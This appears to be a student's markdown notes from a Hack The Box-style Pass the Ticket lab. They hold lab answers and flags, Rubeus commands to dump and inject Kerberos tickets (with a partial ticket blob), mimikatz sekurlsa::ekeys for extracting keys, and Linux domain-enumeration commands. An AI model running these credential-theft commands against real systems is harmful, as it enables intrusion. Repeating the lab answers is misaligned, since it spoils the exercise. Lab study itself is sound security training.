 #### question 1
>Anweser: 3
>method: rubeus.exe dump /nowrap

#### question 2
> anwser: Learn1ng_M0r3_Tr1cks_with_J0hn
> method: 

```cmd 
Rubeus.exe ptt /domain:inlanefreight.htb /user:john /ticket:doIFqDCCBaSgAwIBBaEDAgEWooIEojCCBJ5hggSaMIIElqADAgEFoRMbEUlOTEFORUZSRUlHSFQuSFRCoiYwJKADAgECoR0wGxsGa3JidGd0GxFJTkxBTkVGUkVJR0hULkhUQqOCBFAwggRMoAMCARKhAwIBAqKCBD4EggQ6UlaZVVILq6z4Z4bQFb3UqGkpGnCkyFq9iSulCp7Mp8iBwo1zJdgm7nR/q38HpTla3/TSBA3xajCuoiibTGeA9rAIcj11DokusccRrRRaHxFJHd/Af3AtGeYM18TTdnz<snip>

```
![[Pasted image 20250131115341.png]]


#### question 3

aes256-> 
```
mimikatz.exe
sekurlsa::ekeys
```

![[Pasted image 20250131120132.png]]
![[Pasted image 20250131120303.png]]
# Pass the Ticket (PtT) from Linux

**Note:** A Linux machine not connected to Active Directory could use Kerberos tickets in scripts or to authenticate to the network. It is not a requirement to be joined to the domain to use Kerberos tickets from a Linux machine.

In most cases, Linux machines store Kerberos tickets as [ccache files](https://web.mit.edu/kerberos/krb5-1.12/doc/basic/ccache_def.html) in the `/tmp` directory.

#### Linux Auth via Port Forward

```shell
 ssh david@inlanefreight.htb@10.129.204.23 -p 2222
```
#### Identifying Linux and Active Directory Integration

```shell
realm list
```

#### PS - Check if Linux Machine is Domain Joined

```shell
ps -ef | grep -i "winbind\|sssd"
```
